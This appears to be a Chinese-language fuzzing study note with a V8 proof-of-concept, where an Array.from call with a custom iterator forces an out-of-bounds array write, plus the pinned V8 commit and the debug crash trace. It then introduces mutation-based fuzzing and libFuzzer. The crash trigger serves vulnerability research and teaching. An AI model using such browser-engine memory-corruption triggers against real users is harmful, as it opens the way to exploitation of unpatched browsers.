 测试poc

 ```javascript
let oobArray = [];
let maxSize = 1028 * 8;
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => ({ counter : 0,next() { let result = this.counter++; if (this.counter > maxSize) {oobArray.length = 0; return {done: true}; } else { return {value: result, done: false}; }} }) });
oobArray[oobArray.length - 1] = 0x41414141;
 ```

v8版本

 ```shell
git reset --hard 1dab065bb4025bdd663ba12e2e976c34c3fa6599
 ```

产生崩溃

```shell
$ ./easy-fuzz.py 
in/poc.js
out/poc0

#
# Fatal error in ../../src/objects/fixed-array-inl.h, line 96
# Debug check failed: index < this->length() (8223 vs. 0).
#
#
#
#FailureMessage Object: 0x7ffe7c6612c0
==== C stack trace ===============================

    /home/p0kerface/Documents/Browser/v8/v8/out.gn/x64.debug/./libv8_libbase.so(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x7f6c2664669e]
   
...
    /home/p0kerface/Documents/Browser/v8/v8/out.gn/x64.debug/./libv8.so(v8::internal::Runtime_KeyedStoreIC_Miss(int, v8::internal::Object**, v8::internal::Isolate*)+0x107) [0x7f6c257ffdc7]
    [0xaba57d854a4]
Received signal 4 ILL_ILLOPN 7f6c26642961

--------------------------------------------------------------------------------
```

传统的fuzz方式（基于变异），即生成随机编译样本，输入到测试程序，检测是否出现crash。随机性非常大，测试的覆盖率很难有保证。早期的浏览器fuzz工具，都贯彻这种逻辑。

传统Fuzz浏览器的方式可以参考FreeBuf的这篇文章[从零开始学Fuzzing系列：浏览器fuzz工具探究之框架篇](https://www.freebuf.com/sectool/93130.html)



### Writing fuzzers (simple examples)

这部分是学习如何使用libfuzzer来编写一个fuzz，对我们的目标程序进行模糊测试。实验提供了三个目标函数作为FUZZ目标，我们将构造四个不同的Fuzzer对函数进行Fuzz实验。

**安装libfuuzer**


[pdfium]: https://pdfium.googlesource.com/pdfium/
[radamsa]: https://github.com/aoh/radamsa
[PDFium bugs]: https://bugs.chromium.org/p/chromium/issues/list?can=1&q=Type%3DBug-Security+component%3AInternals%3EPlugins%3EPDF+label%3Aallpublic+opened%3E2015-04-09&colspec=ID+Pri+M+Stars+ReleaseBlock+Component+Status+Owner+Summary+OS+Modified&x=m&y=releaseblock&cells=ids